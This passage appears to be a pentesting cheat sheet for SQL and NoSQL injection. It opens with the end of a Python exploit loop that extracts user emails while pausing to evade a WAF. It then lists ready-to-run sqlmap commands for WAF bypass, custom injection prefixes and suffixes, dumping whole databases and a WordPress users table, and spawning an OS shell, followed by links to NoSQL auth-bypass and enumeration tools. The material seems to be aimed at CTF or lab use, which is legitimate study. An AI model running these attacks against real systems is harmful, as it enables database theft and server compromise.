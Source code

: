 ```python
            try:
                js = json.loads(rtext)
                if js[0]['email']:
                    print(f"sid-{i}:{js[0]['email']}")
                time.sleep(3) # sleep to avoid the waf
            except:
                time.sleep(5)

exploit().cmdloop()
```

### sqlmap
+ tamper, unicodecharescape bypass the waf unicode
+ prefix/suffix, special sqli paylaod
+ delay, bypass waf 

```
-u url
-p parameter
--dbms=mysql， 指定db类型
--dump dump contents of all tables
--os-shell  execute  a shell

# Post
./sqlmap.py -r request.txt -p username

# Get
sqlmap -u "http://192.168.1.2/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://192.168.1.2 --dbms=mysql --crawl=3

#dump database or table
sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users

#proxy
--proxy="http://192.168.3.2:1111"  --proxy-cred="username:password"

//sqlmap prefix
sqlmap -r sandbox.req -v 3 --prefix="[\"1650149780')) OR 1=2 " --suffix="#\"]" --level=5 --risk=3 --random-agent --flush-session --current-db
sqlmap -r sandbox.req --prefix="[\"1650149780')) OR 1=2 " --suffix="#\"]" --level=5 --risk=3 -D wordpress -T wp_users --dump
```

## NoSQLi
+ nosql injection authentication bypass
+ extract data 
+ exploit info from [PayloadsAllTheThings nosql injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
+ nosql user and password enum, [nosqli-user-pass-enum.py](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration)
+ htb mango, auth bypass and extract data
